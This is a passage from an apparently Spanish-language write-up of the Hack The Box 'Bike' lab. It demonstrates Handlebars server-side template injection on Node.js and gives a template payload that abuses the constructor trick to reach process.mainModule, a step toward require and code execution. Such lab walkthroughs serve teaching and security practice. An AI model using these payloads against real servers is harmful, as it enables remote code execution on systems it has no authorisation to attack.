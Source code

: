 ```js
{ {/with}}
{ {/with}}
{ {/with}}
```

Lo pasamos a URL encode y vemos la respuesta:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Bike/ssti4.png" alt="under" oncontextmenu="return false;">
</div>

Se verifica la disponibilidad del objeto `process` en Node.js y el uso de su propiedad `mainModule`, esta propiedad aún puede ser utilizada para cargar el módulo principal y, desde allí, acceder a `require`.

```js
{ {#with "s" as |string|}}
{ {#with "e"}}
{ {#with split as |conslist|}}
{ {this.pop}}
{ {this.push (lookup string.sub "constructor")}}
{ {this.pop}}
{ {#with string.split as |codelist|}}
{ {this.pop}}
{ {this.push "return process.mainModule;"}}
{ {this.pop}}
{ {#each conslist}}
{ {#with (string.sub.apply 0 codelist)}}
{ {this}}
{ {/with}}
{ {/each}}
{ {/with}}
{ {/with}}
{ {/with}}
{ {/with}}
````
